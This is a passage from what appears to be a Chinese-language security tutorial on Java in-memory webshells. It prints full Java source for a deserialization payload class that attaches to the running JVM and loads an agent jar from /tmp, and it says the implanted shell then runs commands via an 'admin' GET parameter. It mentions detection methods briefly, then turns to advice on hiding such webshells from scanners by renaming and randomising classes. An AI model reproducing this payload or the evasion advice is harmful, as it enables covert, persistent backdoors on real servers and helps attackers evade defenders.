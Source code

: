     package ysoserial.shells;  
    import com.sun.org.apache.xalan.internal.xsltc.DOM;import com.sun.org.apache.xalan.internal.xsltc.TransletException;import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;import com.sun.org.apache.xml.internal.serializer.SerializationHandler;import sun.management.VMManagement;  
    import java.io.File;import java.lang.management.ManagementFactory;import java.lang.management.RuntimeMXBean;import java.lang.reflect.Field;import java.lang.reflect.Method;import java.net.URLClassLoader;  
    public class AgentInjection extends AbstractTranslet {    static {        try {            // 首先获取进程ID            RuntimeMXBean runtime = ManagementFactory.getRuntimeMXBean();            Field jvm = runtime.getClass().getDeclaredField("jvm");            jvm.setAccessible(true);            VMManagement mgmt = (VMManagement) jvm.get(runtime);            Method pidMethod = mgmt.getClass().getDeclaredMethod("getProcessId");            pidMethod.setAccessible(true);            // 通过反射进行调用            URLClassLoader classLoader = new java.net.URLClassLoader(new java.net.URL[]{new File(System.getProperty("java.home").replace("jre","lib") + File.separator + "tools.jar").toURI().toURL()});            Class<?> VirtualMachine = classLoader.loadClass("com.sun.tools.attach.VirtualMachine");            Method attach = VirtualMachine.getDeclaredMethod("attach",new Class[]{java.lang.String.class});            Method loadAgent=VirtualMachine.getDeclaredMethod("loadAgent",new Class[]{java.lang.String.class});            Method detach=VirtualMachine.getDeclaredMethod("detach",null);  
                Object virtualMachine = attach.invoke(VirtualMachine,new Object[]{String.valueOf(pidMethod.invoke(mgmt))});            loadAgent.invoke(virtualMachine,new Object[]{"/tmp/agent.jar"});            detach.invoke(virtualMachine);        }catch (Exception e){        }    }  
        @Override    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {  
        }  
        @Override    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {  
        }}

完成反序列化注入Payload后，在访问任意路径时，带上GET参数`admin`就可以执行命令了

## 内存马检测和隐藏

> 参考：
>
> 探索Filter型Tomcat内存马的免杀 - 先知社区 (aliyun.com)
>
> 查杀Java web filter型内存马 | 回忆飘如雪 (gv7.me)

对于注入后的内存马，可以分为两个类型

  * 组件注入型 - 注入Servlet、Filter、Listener、Controller等

  * Agent注入型 - 注入字节码

检测方面的研究主要有c0ny1师傅的文章

### 组件注入型的检测和查杀

可以发现c0ny1师傅给出的方法就是通过加载Java Agent实时获取所有Filter，并且对于可疑的类进行检查

根据4ra1n师傅的方法，我们可以主要通过如下手段来隐藏我们的内存马

  1. 内存马的类名改为更加合理的，不要使用`BackdoorFilter`这样显眼的名字，并引入一定的随机化
